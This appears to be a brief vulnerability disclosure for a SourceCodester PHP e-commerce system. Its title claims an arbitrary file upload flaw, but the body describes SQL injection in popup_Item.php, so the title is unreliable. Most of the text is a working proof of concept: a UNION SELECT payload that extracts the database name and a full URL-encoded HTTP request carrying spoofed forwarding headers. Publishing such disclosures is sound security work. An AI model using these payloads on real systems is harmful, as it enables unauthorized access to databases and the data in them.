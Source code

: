 # ecommerce-Unauthorized arbitrary file upload vulnerability

## Description

    The ecommerce /ecommerce/popup_Item.php interface has not authorized sql union population.

## source code

    https://www.sourcecodester.com/php/13524/e-commerce-system-using-phpmysqli.html

## Author

    yangfan2@webray.com.cn inc  

## Proof of Concept

1. test

```
1 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,database(),20
```

```
GET /ecommerce/popup_Item.php?id=1%20%75%6e%69%6f%6e%20%73%65%6c%65%63%74%20%31%2c%32%2c%33%2c%34%2c%35%2c%36%2c%37%2c%38%2c%39%2c%31%30%2c%31%31%2c%31%32%2c%31%33%2c%31%34%2c%31%35%2c%31%36%2c%31%37%2c%31%38%2c%64%61%74%61%62%61%73%65%28%29%2c%32%30 HTTP/1.1
Host: 172.20.10.166:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=g4gppk342k4t3gn6dlmav29rr0
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close


```

database

| ![image-20240822163210159](E:\Desktop\webRay\cve挖掘\cve提交\ecommerce-Unauthorized arbitrary file upload vulnerability.assets\image-20240822163210159.png) |
| ------------------------------------------------------------ |

